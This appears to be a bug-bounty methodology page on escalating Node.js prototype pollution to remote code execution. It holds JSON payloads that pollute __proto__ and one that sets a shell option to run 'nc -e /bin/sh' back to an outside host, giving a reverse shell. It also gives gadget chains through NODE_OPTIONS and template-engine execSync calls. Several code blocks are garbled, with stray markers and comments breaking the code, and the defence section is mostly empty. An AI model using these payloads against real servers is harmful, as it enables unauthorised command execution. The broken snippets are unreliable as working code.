

# Prototype Pollution to RCE (Node.js)

## When to Use
- When auditing JavaScript (client-side) or Node.js (server-side) applications that perform deep merging, cloning, or path assignment on user-controlled JSON data.
- To escalate a seemingly minor logic flaw (modifying object properties) into full Remote Code Execution on the backend server.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying the Pollution Vector (Sink)

```javascript
# Concept: Deep Merge const merge = (target, source) => {
    for (let attr in source) {
        if (typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
            merge(target[attr], source[attr]); // VULNERABLE } else {
            target[attr] = source[attr];
        }
    }
    return target;
};
```

### Phase 2: Testing for Pollution

```http
# POST /api/settings HTTP/1.1
Content-Type: application/json

{"__proto__": {"isAdmin": true}}

# ```

### Phase 3: Finding a Gadget (Path to RCE)

```javascript
# const { execSync } = require('child_process');

function executeCommand(opts) {
    // let shell = opts.shell || '/bin/sh'; 
    execSync('echo hello', { shell: shell });
}
```

### Phase 4: Exploitation (Polluting the Gadget)

```http
# POST /api/settings HTTP/1.1
Content-Type: application/json

{
  "__proto__": {
    "shell": "node -e 'require(\"child_process\").execSync(\"nc -e /bin/sh 10.10.10.10 4444\")'"
  }
}
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Test Prototype ] --> B{Pollution Verified ]}
    B -->|Yes| C[Find Gadgets ]
    B -->|No| D[Check Alternate ]
    C --> E[Exploit RCE ]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Input Sanitization**: **Safe Merging Libraries**: **Object.freeze() / Object.create(null)**: Key Concepts
| Concept | Description |
|---------|-------------|
| Prototype Pollution | |
| JavaScript Gadgets | |


## Output Format
```
Prototype Pollution Rce — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (Prototype Pollution)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Various HackerOne** | $2K-$10K | (Multiple) | Prototype pollution → RCE via server-side gadgets | 2023-2025 |

**Key Lesson**: Client-side prototype pollution alone = Low/Medium. Server-side prototype 
pollution (especially Node.js) = High/Critical because it can chain to RCE.

**Gadget chains that escalate prototype pollution to RCE:**
```javascript
// If the app uses child_process.spawn/exec/fork with pollutable options:
Object.prototype.shell = true;
Object.prototype.NODE_OPTIONS = "--require /proc/self/environ";
// → RCE via environment variable injection

// If the app uses EJS/Pug/Handlebars templates:
Object.prototype.client = true;
Object.prototype.escapeFunction = "(() => { return process.mainModule.require('child_process').execSync('id') })";
// → RCE via template engine gadget
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution)
- Infosec Writeups: [NodeJS Prototype Pollution to RCE](https://infosecwriteups.com/javascript-prototype-pollution-practice-of-finding-and-exploitation-f97284333b2)
